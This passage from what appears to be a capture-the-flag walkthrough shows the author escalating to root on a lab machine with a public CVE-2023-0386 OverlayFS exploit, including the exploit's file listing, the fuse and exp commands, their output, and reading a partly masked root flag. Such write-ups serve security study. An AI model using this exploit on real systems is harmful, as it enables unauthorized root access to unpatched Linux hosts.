 It throws some errors, but there are now three binaries that weren’t there before:

```
admin@2million:/tmp/CVE-2023-0386-main$ ls
exp  exp.c  fuse  fuse.c  gc  getshell.c  Makefile  ovlcap  README.md  test
```

In the first session, I’ll run the next command from the instructions:

```
admin@2million:/tmp/CVE-2023-0386-main$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
```

It hangs.

In the other window, I’ll run the exploit:

```
admin@2million:/tmp/CVE-2023-0386-main$ ./exp 
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jun  2 23:11 .
drwxrwxr-x 6 root   root     4096 Jun  2 23:11 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386-main#
```

That’s a root shell!

I’ll grab `root.txt`:

```
root@2million:/root# cat root.txt
05636c51************************
```
